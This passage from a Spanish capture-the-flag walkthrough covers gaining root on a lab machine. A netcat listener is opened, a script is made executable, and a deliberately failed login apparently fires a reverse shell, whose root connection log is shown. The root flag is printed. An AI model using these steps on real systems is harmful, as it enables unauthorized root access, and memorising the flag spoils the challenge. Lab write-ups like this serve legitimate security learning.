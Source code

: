 Le damos permisos de ejecuccion:

```shell
chmod +x failed.pl
```

Echo esto entraremos ya en la siguiente `URL`:

```
URL = https://<IP>:10000/
```

Antes de meter las credenciales mal, vamos a ponernos a la escucha:

```shell
nc -lvnp <PORT>
```

Ahora si metemos por ejemplo como credenciales:

```
User: test
Pass: test
```

No pondra que hemos fallado las credenciales, pero si volvemos a donde tenemos la escucha veremos lo siguiente:

```
listening on [any] 7777 ...
connect to [192.168.1.146] from (UNKNOWN) [192.168.1.160] 33600
whoami
root
```

Veremos que ha funcionado, por lo que leeremos la `flag` de `root`.

> root.txt

```
HMVmaymaymay
```
